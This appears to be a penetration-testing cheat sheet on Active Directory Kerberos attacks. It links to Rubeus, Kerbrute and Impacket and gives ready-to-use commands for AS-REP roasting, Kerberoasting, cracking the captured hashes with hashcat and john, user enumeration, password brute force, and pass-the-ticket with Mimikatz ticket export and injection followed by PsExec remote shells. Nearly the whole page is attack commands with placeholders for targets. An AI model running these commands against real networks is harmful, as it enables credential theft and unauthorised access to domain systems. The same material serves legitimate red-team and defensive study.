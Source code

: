 





## Tools

**Rubeus:** [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Rubeus.exe)

**Kerbrute:** [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

**Impacket:** [https://github.com/SecureAuthCorp/impacket](https://github.com/SecureAuthCorp/impacket)

## ASREP-Roast

### Impacket

```python
# ASREP check on all domain Users (Requires valid domain credentials)
python2 GetNPUsers.py <Domain>/<User>:<Password> -request -dc-ip <IP> -format <John|Hashcat> | grep "$krb5asrep$"

# ASREP check on a list of domain user (Does not require domain credentials)
python2 GetNPUsers.py <Domain> -usersfile <UserList>  -dc-ip <IP> -format <John|Hashcat> | grep "$krb5asrep$"
```

### Rubeus

```python
# Extract from all domain accounts
.\Rubeus.exe asreproast
.\Rubeus.exe asreproast /format:hashcat /outfile:C:Hashes.txt
```

### Cracking

```bash
# Windows
hashcat64.exe -m 18200 c:Hashes.txt rockyou.txt

# Linux
john --wordlist rockyou.txt Hashes.txt --format=krb5tgs
hashcat -m 18200 -a 3 Hashes.txt rockyou
```

## Brute Force

### Kerbrute

**Download:** [https://github.com/ropnop/kerbrute](https://github.com/ropnop/kerbrute)

```python
./kerbrute userenum <UserList> --dc <IP> --domain <Domain>
```

### Rubeus

```python
# with a list of users
.\Rubeus.exe brute /users:<UserList> /passwords:<Wordlist> /domain:<Domain>

# Check all domain users again password list
.\Rubeus.exe brute /passwords:<Wordlist>
```

## Kerberoasting

### Impacket

```python
GetUserSPNs.py <Domain>/<User>:<Password> -dc-ip <IP> -request
```

### Rubeus

```python
# Kerberoast all users in Domain
.\Rubeus kerberoast

# All Users in OU
.\Rubeus.exe kerberoast /ou:OU=Service_Accounts,DC=Security,DC=local

# Specific users
.\Rubeus.exe kerberoast /user:File_SVC
```

## Pass-The-Ticket

### Mimikatz

```python
# Collect tickets
sekurlsa::tickets /export

# Inject ticket
kerberos::ptt <.kirbi file>

# spawn CMD with the injected ticket
misc::cmd
```

### Rubeus

```python
# Collect tickets
.\Rubeus.exe dump

# Inject ticket
.\Rubeus.exe ptt /ticket:<.kirbi file>
```

### PsExec

```python
# To be used after injecting ticket with either Rubeus or Mimikatz
.\PsExec.exe -accepteula \\<IP> cmd
```

## Silver Ticket

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/silver-ticket" %}

## Golden Ticket

{% embed url="https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/golden-ticket" %}
